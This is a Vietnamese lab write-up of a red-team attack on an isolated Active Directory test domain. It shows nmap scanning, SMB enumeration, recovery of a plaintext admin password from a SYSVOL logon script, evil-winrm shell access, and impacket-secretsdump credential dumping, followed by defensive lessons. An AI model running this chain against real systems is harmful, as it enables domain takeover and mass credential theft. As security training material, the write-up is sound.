


# 📝 Daily Work Log: Active Directory Penetration Testing (Red Team)

**Ngày thực hiện:** 13/05/2026

**Mục tiêu (Target):** Windows Server 2022 (IP: `192.168.37.128`) - Domain: `AnDLP.local`

**Vai trò:** Red Team (Attacker)

---

## 🖥️ Môi trường Lab (Lab Environment)
- **Host Hardware:** AMD Ryzen 7 8845HS, 32GB RAM
- **Virtual Machines:** 
  - 1x Windows Server 2022 (Target/Domain Controller)
  - 1x Ubuntu Linux (Attacker Machine)
- **Network Setup:** Mạng ảo Host-only (Subnet `192.168.37.0/24`) để đảm bảo an toàn, cách ly hoàn toàn với mạng thật.

---

## 🎯 Mục tiêu chiến dịch

Thực hiện chuỗi tấn công (Kill Chain) vào môi trường Active Directory Lab, đi từ việc dò quét ngoại vi cho đến khi chiếm quyền Domain Admin và trích xuất toàn bộ cơ sở dữ liệu mật khẩu.



---

## ⚙️ Các bước thực thi (Execution Chain)

### Bước 1: Dò tìm mục tiêu (Reconnaissance)

Sử dụng Nmap để quét toàn bộ các cổng mở và dịch vụ đang chạy trên máy chủ mục tiêu.

```bash
nmap -sC -sV -p- 192.168.37.128
```

**Kết quả:** Phát hiện các cổng trọng yếu đang mở, đáng chú ý nhất là **Port 445 (SMB)** và **Port 5985 (WinRM)**.

| Port | Service | Trạng thái | Ghi chú |
|------|---------|------------|---------|
| 445  | SMB     | Open       | File sharing — potential info disclosure |
| 5985 | WinRM   | Open       | Remote management — lateral movement vector |
| 88   | Kerberos| Open       | Domain Controller confirmed |
| 389  | LDAP    | Open       | AD enumeration possible |

### Bước 2: Đột nhập bước đầu (Initial Access)

Khai thác dịch vụ chia sẻ file SMB. Đăng nhập bằng tài khoản cấp thấp (`nhanvienIT1`) và phát hiện thư mục `SYSVOL` có thể truy cập đọc được.

```bash
# Liệt kê các thư mục chia sẻ
smbclient -L //192.168.37.128 -U nhanvienIT1

# Truy cập vào thư mục SYSVOL
smbclient //192.168.37.128/SYSVOL -U nhanvienIT1
```

### Bước 3: Leo thang đặc quyền (Privilege Escalation - Info Disclosure)

Tiến hành lục lọi trong `SYSVOL/AnDLP.local/scripts` và phát hiện một file kịch bản tự động `Logon_Backup.bat`.

```bash
# Tải file về máy attacker
get Logon_Backup.bat

# Đọc nội dung file
cat Logon_Backup.bat
```

**Kết quả:** Lỗi "chết người" của quản trị viên (Admin lười biếng). File `.bat` chứa mật khẩu **Plaintext** của tài khoản Administrator dùng để map ổ đĩa mạng.

> ⚠️ **Critical Finding:** Hardcoded credentials in logon script stored in SYSVOL — accessible by ANY domain user.

### Bước 4: Chiếm quyền điều khiển (System Compromise)

Sử dụng thông tin đăng nhập vừa đánh cắp, kết hợp với Port 5985 (WinRM) đã phát hiện ở Bước 1 để lấy Shell từ xa với quyền cao nhất (Domain Admin).

```bash
# Đăng nhập qua WinRM
evil-winrm -i 192.168.37.128 -u Administrator -p 'P@ssw0rd_Leaked'

# Kiểm tra quyền lực hệ thống
whoami /priv

# Để lại cờ chiến thắng (Capture The Flag)
echo "Hacked by Phu An - System Compromised!" > C:\Users\Administrator\Desktop\proof.txt
```

### Bước 5: Vét sạch dữ liệu (Post-Exploitation / Dumping)

Sử dụng công cụ `secretsdump` của bộ `impacket` để trích xuất file `NTDS.dit` (Trái tim của Active Directory).

```bash
# Cài đặt môi trường
python3 -m venv impacket_env && source impacket_env/bin/activate
pip install impacket

# Thực hiện trích xuất mã băm mật khẩu
impacket-secretsdump AnDLP.local/Administrator:'P@ssw0rd_Leaked'@192.168.37.128
```

**Kết quả:** Lấy được toàn bộ NTLM Hash và Kerberos Keys của tất cả user trong Domain (bao gồm cả tài khoản quan trọng `krbtgt` dùng để tạo Golden Ticket).



---

## 🧠 Bài học rút ra (Blue Team Notes)

Cuộc tấn công thành công rực rỡ này phơi bày những lỗ hổng kinh điển trong quản trị hệ thống:

1. **Lỗi quản lý mật khẩu:** Tuyệt đối không hardcode (viết cứng) mật khẩu vào các file script (.bat, .ps1, .vbs) rồi vứt trong thư mục chia sẻ chung (SYSVOL/NETLOGON).
2. **Lỗi phân quyền SMB:** Không kiểm soát chặt chẽ quyền đọc/ghi trên các Share Folder nhạy cảm.
3. **Tư duy mắt xích:** Kẻ tấn công không cần một lỗ hổng Zero-day phức tạp. Chỉ cần ghép nối các lỗi cấu hình nhỏ giọt lại với nhau là đủ để đánh sập toàn bộ Domain.

---

> 🎯 **To be continued (Mitigation Teaser):** Hệ thống đã bị thỏa hiệp hoàn toàn do lỗi quản lý mật khẩu và phân quyền SMB. Cách vá những lỗ hổng này và truy vết kẻ tấn công thông qua Event Viewer sẽ được trình bày chi tiết trong bài Blue Team ngày mai! Cùng chờ đón nhé.
